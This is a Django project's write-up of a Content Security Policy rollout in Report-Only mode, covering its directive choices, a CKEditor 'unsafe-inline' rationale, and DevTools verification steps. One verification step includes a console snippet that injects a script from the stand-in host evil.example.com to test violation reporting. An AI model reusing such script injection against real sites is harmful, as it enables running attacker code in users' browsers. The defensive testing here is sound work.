


# Content Security Policy — Report-Only Rollout

**Project:** MyFootballBlog (Django, `django-csp` 4.0)
**Status:** **Report-Only**. Nothing is blocked yet; violations are logged to
`logs/csp_violations.log` via the `/csp-report/` endpoint
(`config/views.py:csp_report_view`).
**Last browser-verified:** 2026-08-10 (local dev server, Chrome DevTools)

---

## 1. Policy configuration

| Directive | Value | Why |
|---|---|---|
| `default-src` | `'self'` | Fallback for anything not listed below. |
| `script-src` | `'self' 'nonce-<random>' https://cdn.jsdelivr.net https://unpkg.com` | `'self'` for local static JS (htmx CSRF wiring aside — see below); jsdelivr for Bootstrap's bundle, unpkg for htmx; the nonce covers the two static inline `<script>` blocks in `base.html` and the conditional one in `profile.html`. |
| `style-src` | `'self' 'unsafe-inline' https://cdn.jsdelivr.net` | jsdelivr for Bootstrap/Bootstrap Icons CSS. `'unsafe-inline'` is here **only because of CKEditor 4** — see below, it can't be avoided by nonces. |
| `font-src` | `'self' https://cdn.jsdelivr.net` | Bootstrap Icons' `.woff2` files are served from the same jsdelivr host as its CSS. |
| `img-src` | `'self'` | All images (posts, avatars, flags) are same-origin; nothing external found. |
| `connect-src` | `'self'` | Covers both the chat app's same-origin `fetch()` calls and its `ws://`/`wss://` WebSocket connections (Django Channels) — `'self'` matches ws/wss on the current host. |
| `frame-src` | `'none'` | No iframes are embedded anywhere in the app. |
| `frame-ancestors` | `'none'` | Mirrors the existing `X_FRAME_OPTIONS = 'DENY'`; nothing should be allowed to frame this site. |
| `object-src` | `'none'` | No plugins/Flash; standard hardening default. |
| `base-uri` | `'self'` | Blocks `<base>` tag injection. |
| `form-action` | `'self'` | Every form in the app posts to a same-origin URL. |
| `report-uri` | `/csp-report/` | Where violation reports are sent (Report-Only only, for now). |

**Flagged for review:** `https://cdn.jsdelivr.net` and `https://unpkg.com` are
allowed in `script-src`; `cdn.jsdelivr.net` is also allowed in `font-src` and
`style-src`. Confirm these are only as broad as CKEditor/dependencies
actually require.

### Where `'unsafe-inline'` was needed, and why a nonce doesn't work there

`style-src` needs `'unsafe-inline'` because of **CKEditor 4** (`django-ckeditor`,
used for post content). CSP nonces only apply to `<script>` and `<style>`
*tags* — they cannot cover the `style=""` *attribute*, which is the
mechanism CKEditor's own JS uses at runtime to position its dialogs, skin
its toolbar, and style its editing iframe. There's no fixed set of styles to
hash either, since CKEditor generates them dynamically. Short of forking
CKEditor or replacing it, `'unsafe-inline'` for `style-src` is unavoidable.
(It also happens to cover the handful of static `style="display:inline;"` /
`style="font-size:..."` attributes already in the templates and the one
CKEditor puts on its own widget wrapper `<div>` — none of those forced the
`'unsafe-inline'` decision on their own, since eliminating them wouldn't let
the policy drop it anyway.)

`script-src` did **not** need `'unsafe-inline'` — the three inline
`<script>` blocks in `base.html`/`profile.html` now carry
`nonce="{{ request.csp_nonce }}"` (from django-csp), and the one inline
`onclick=` handler (`back_button.html`) was moved into an external file,
`static/js/back-button.js`, with a delegated click listener instead.

### Why django-csp instead of Django's built-in CSP middleware

The project runs Django 5.2.3. Django's own CSP support (`django.middleware.csp`)
was only added in Django 6.0, so it isn't available here. `django-csp==4.0`
was added to `requirements.txt` instead — its settings shape
(`CONTENT_SECURITY_POLICY_REPORT_ONLY = {"DIRECTIVES": {...}}`, the `NONCE`
sentinel) mirrors Django 6's built-in middleware, so upgrading later and
switching to the built-in version, if you ever want to, should be a small
change rather than a rewrite.

---

## 2. Browser verification

**Environment:** Local dev server (`http://127.0.0.1:8000/`), Chrome DevTools
**Goal:** Verify that the Report-Only CSP header is being sent, correctly
parsed by the browser, and that violations are detected, logged to the
console, and reported to `/csp-report/` — without anything being blocked.

### Step 1: Open DevTools on the correct tab

CSP testing must be done in DevTools attached to the **app's own tab**. An
early check accidentally inspected an unrelated tab (`claude.ai` instead of
`127.0.0.1:8000`), which showed an empty Network panel (`0 / 26 requests`)
since no requests from the football hub app were being captured.

**Fix:** open a new tab, navigate to `http://127.0.0.1:8000/`, *then* open
DevTools (F12) on that tab.

### Step 2: Confirm the Report-Only header is sent

With DevTools correctly attached to the app tab → **Network** tab → reload →
click the top document request (`127.0.0.1`) → **Headers**:



Confirmed header, `200 OK` on `GET http://127.0.0.1:8000/`:

```
Content-Security-Policy-Report-Only:
  font-src 'self' https://cdn.jsdelivr.net;
  base-uri 'self';
  img-src 'self';
  frame-ancestors 'none';
  style-src 'self' 'unsafe-inline' https://cdn.jsdelivr.net;
  object-src 'none';
  connect-src 'self';
  form-action 'self';
  default-src 'self';
  frame-src 'none';
  script-src 'self' 'nonce-DFxC4WwalRhsut0INTBivA==' https://cdn.jsdelivr.net https://unpkg.com;
  report-uri /csp-report/
```

**Checks passed:**
- Header present and correctly formatted
- `object-src 'none'` and `frame-ancestors 'none'` — locked down as intended
- `script-src` includes a per-request nonce (`nonce-DFxC4WwalRhsut0INTBivA==`)
- `report-uri /csp-report/` points at the app's violation endpoint

### Step 3: Verify the nonce matches an inline script tag

**Elements** tab → locate an inline `<script nonce="...">` tag → confirm the
value matches the nonce in the response header from Step 2, and that it
changes on every page reload.

*(Not separately screenshotted — confirm this manually per reload.)*

### Step 4: Browse the app and watch the Console for violations

**Console** tab, browsing normal pages (homepage, post detail, login,
CKEditor edit view, profile, admin):



Two violations were logged during this session:

#### a) Real violation — inline `data:` SVG blocked by `img-src`

```
Loading the image 'data:image/svg+xml;...' violates the following Content
Security Policy directive: "img-src 'self'". The policy is report-only, so
the violation has been logged but no further action has been taken.
```

Something on the page loads an inline SVG via a `data:` URI, which the
current `img-src 'self'` does not permit. Likely source: an icon library,
spinner, or CKEditor UI chrome. **Action item:** locate the source element
(click the file/line link next to the warning in DevTools) and confirm
before deciding on a fix.

**Proposed fix**, once confirmed as legitimate app behavior:

```python
"img-src": ["'self'", "data:"],
```

`data:` URIs in `img-src` are low-risk (can't execute code), unlike `data:`
in `script-src`.

#### b) Deliberate test violation — external script injection

Console test used to confirm the reporting pipeline end-to-end:

```js
var s = document.createElement('script');
s.src = 'https://evil.example.com/test.js';
document.head.appendChild(s);
```

Result:

```
Loading the script 'https://evil.example.com/test.js' violates the following
Content Security Policy directive: "script-src 'self' 'nonce-...'
https://cdn.jsdelivr.net https://unpkg.com". Note that 'script-src-elem' was
not explicitly set, so 'script-src' is used as a fallback. The policy is
report-only, so the violation has been logged but no further action has
been taken.
```

The subsequent `net::ERR_NAME_NOT_RESOLVED` is expected —
`evil.example.com` is not a real domain — and is unrelated to CSP; the
policy detection itself worked correctly.

**Note:** DevTools also required typing `allow pasting` before the console
would accept the pasted test snippet — this is a Chrome anti-self-XSS
safeguard, not a CSP behavior.

### Step 5: Confirm reports land in the violation log

For each violation above, a `POST /csp-report/` request should appear in the
**Network** tab returning `204`, and a corresponding entry should appear in
the log:

```powershell
Get-Content logs\csp_violations.log -Wait -Tail 20
```

*(Confirm and paste sample log entries here once reviewed.)*

### Outstanding items from browser testing

| Item | Status |
|---|---|
| Header sends correctly in Report-Only mode | ✅ Confirmed |
| Nonce present and scoped to `script-src` | ✅ Confirmed |
| `object-src` / `frame-ancestors` locked to `'none'` | ✅ Confirmed |
| Test violation (`evil.example.com`) reported | ✅ Confirmed |
| Real `img-src` violation (inline `data:` SVG) | ⚠️ Needs investigation — locate source element |
| `/csp-report/` logging pipeline | ⚠️ Confirm log entries for this session's violations |
| Console "3 Issues" indicator | ⚠️ Only 2 violations reviewed in this session — check DevTools Issues tab for the third |
| Full click-through (admin, CKEditor edit, comments/AJAX) | ⏳ Not yet completed |

---

## 3. What to watch for in `logs/csp_violations.log` over the coming weeks

- **False positives from real users** — different browsers, extensions, or
  cached older pages can trigger reports that aren't real problems (e.g. a
  browser extension injecting its own script). Look for a `blocked-uri` that
  isn't `cdn.jsdelivr.net`, `unpkg.com`, or one of your own routes/static
  paths — those are the interesting ones.
- **Anything under `script-src` or `style-src`** you didn't expect — this is
  the strongest signal of either a missed legitimate source (fix the policy)
  or actual injected content (investigate as a security incident).
- **`connect-src` violations** pointing at unfamiliar hosts — would indicate
  something making requests you don't know about.
- **Volume from admin/editor pages** — CKEditor is the most likely source of
  noisy-but-harmless reports; confirm they're all `style-src`/`style-src-attr`
  before writing them off.
- **Report volume and diversity generally** — a policy that's too strict for
  real usage will show up as a small number of *sources* generating a very
  large number of *reports* (i.e. one broken thing firing on every
  pageview), which is different from a wide variety of one-off legitimate
  misses.

---

## 4. What's needed before switching to enforced mode

1. Let this run in Report-Only for a realistic stretch of real traffic
   (days to a couple of weeks, covering admin/editor workflows, not just the
   public pages) and clear out anything unexpected in
   `logs/csp_violations.log`.
2. Confirm there are no legitimate `blocked-uri` entries outside the current
   allowlist. If there are, add them to
   `CONTENT_SECURITY_POLICY_REPORT_ONLY["DIRECTIVES"]` in `config/settings.py`
   and keep watching.
3. Once the log is clean, rename
   `CONTENT_SECURITY_POLICY_REPORT_ONLY` to `CONTENT_SECURITY_POLICY` in
   `config/settings.py` (django-csp reads both independently and will set
   both headers if both are defined, so this is a rename, not new work).
   Keep `CONTENT_SECURITY_POLICY_REPORT_ONLY` around pointed at a *new*,
   stricter draft if you want to keep iterating after enforcing the current
   one.
4. Re-test the full app manually after switching (not just automated
   checks) — CSP violations that were merely logged before will now actually
   block content: check post creation/editing (CKEditor), the live chat
   widget (WebSocket + fetch), login/registration (CAPTCHA image), and the
   admin site.
5. Consider whether `frame-ancestors 'none'` should be reported on too during
   this window — it's already effectively enforced by `X_FRAME_OPTIONS = 'DENY'`,
   so it's low-risk to promote alongside everything else.

## 5. Next steps

1. Identify the element/script generating the inline SVG `data:` URI and
   confirm whether adding `data:` to `img-src` is the right fix.
2. Open the DevTools **Issues** tab to check the third flagged issue.
3. Complete the click-through of remaining pages (admin, CKEditor save flow,
   comments/AJAX features) with the log tailing.
4. Test in an Incognito window with extensions disabled to rule out
   extension-injected false positives.
5. Once the violation log is clean over a real traffic window, revisit
   section 4's checklist for promoting
   `CONTENT_SECURITY_POLICY_REPORT_ONLY` to enforced `CONTENT_SECURITY_POLICY`.
